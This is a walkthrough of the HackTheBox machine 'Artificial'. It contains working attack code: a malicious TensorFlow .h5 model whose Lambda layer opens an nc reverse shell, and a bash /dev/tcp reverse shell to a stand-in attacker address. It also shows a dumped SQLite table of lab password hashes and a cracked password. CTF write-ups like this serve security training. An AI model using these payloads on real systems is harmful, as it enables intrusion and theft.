



# Artificial - HackTheBox Write-Up

**Artificial** is a medium Linux machine on HackTheBox that revolves around exploiting a TensorFlow model-loading vulnerability to gain RCE, pivoting through an exposed internal service, and eventually retrieving root by leveraging misconfigurations.

---

# 1. Initial Reconnaissance and Scanning

### Nmap Scan

We begin with a basic Nmap scan to identify open ports and services:

```bash
nmap -sV -sC 10.10.11.74
```

**Results:**

* **22/tcp** - OpenSSH 8.2p1 Ubuntu
* **80/tcp** - HTTP (nginx 1.18.0), redirect to `artificial.htb`

Add the domain to `/etc/hosts`:

```bash
echo "10.10.11.74 artificial.htb" | sudo tee -a /etc/hosts
```

---

# 2. Enumeration

Visiting the website reveals a machine-learning related interface. Inside the dashboard, the requirements and Dockerfile reveal vulnerable TensorFlow CPU version **2.13.1**.

The Dockerfile downloads TensorFlow wheel directly - a known dangerous practice.

A public RCE vulnerability exists: **TensorFlow Remote Code Execution via Malicious Model Loading**.

Reference:

* GitHub Advisory GHSA-x4wf-678h-2pmq
* Research: Splint CyberBlog - *TensorFlow RCE with Malicious Model*

---

# 3. Crafting a Malicious TensorFlow Model (Initial Foothold)

Using the known exploit, we create a malicious `.h5` model that executes system commands when loaded by the server.

### exploit.py

```python
import tensorflow as tf

def exploit(x):
    import os
    os.system("rm -f /tmp/f; mknod /tmp/f p; cat /tmp/f | /bin/sh -i 2>&1 | nc YOUR_IP 6666 > /tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```

### Build and Run the Docker Environment

```bash
docker build -t tf-exploit .
docker run -it --rm -v "$PWD":/code tf-exploit
```

From inside the container:

```bash
cd /code
python exploit.py
```

Upload `exploit.h5` to the server. Start a listener:

```bash
nc -lvnp 6666
```

The malicious model is loaded → reverse shell received.

You now have a shell as the application user.

---
```snip
app@artificial:~/app/instance$ sqlite3 users.db
 Enter ".help" for usage hints.
 sqlite> select * from user;
 1|gael|gael@artificial.htb|c99175974b6e192936d97224638a34f8
 2|mark|mark@artificial.htb|0f3d8c76530022670f1c6029eed09ccb
 3|robert|robert@artificial.htb|b606c5f5136170f15444251665638b36
 4|royer|royer@artificial.htb|bc25b1f80f544c0ab451c02a3dca9fc6
 5|mary|mary@artificial.htb|bf041041e57f1aff3be7ea1abd6129d0
 6|notthei0204|notthei0204@gmail.com|f0f1f60430a59e920764a7b1be6041fc
```
# 4. User Pivoting (SQLite Credentials Leak)

Inside the application directory:

```bash
sqlite3 users.db
select * from user;
```

Recovered users and password hashes. Cracking reveals:

```
gael : mattp005numbertwo
```

SSH into the machine:

```bash
ssh gael@10.10.11.74
```

---

# 5. Local Port Enumeration / Internal Service

From the user shell:

```bash
netstat -ntlp
```

Open local-only service:

```
127.0.0.1:9898
```

Forward it to your machine:

```bash
ssh gael@10.10.11.74 -L 9898:localhost:9898
```

Visit:

```
http://localhost:9898
```

Inside this internal panel, a backup archive can be downloaded.

Extract it in `/tmp`:

```bash
cp backup.tar /tmp
tar -xf backup.tar
```
There, I found a backup of a Backrest instance, which would come in handy later. I also checked for any open ports on the system.

`netstat -tulpn`



Inside the extracted files, `config.json` contains additional credentials.

---

# 6. Privilege Escalation

Using credentials found in `config.json`, access the application directory and upload a reverse shell inside `/tmp`:

### rev.sh

```bash
#!/bin/bash
bash -i >& /dev/tcp/YOUR_IP/9001 0>&1
```

Execute it and catch the shell:

```bash
nc -lvnp 9001
```

You now gain **root**.

---

# 7. Conclusion

Artificial demonstrates the exploitation chain around unsafe ML model handling:

* Unprotected TensorFlow model loading -> full RCE
* SQLite database credential recovery
* SSH pivot to user
* Local port forwarding to internal admin panel
* Backup extraction -> sensitive config leak
* Reverse shell as root

This machine highlights modern ML-related attack surfaces combined with classic privilege escalation techniques.

---

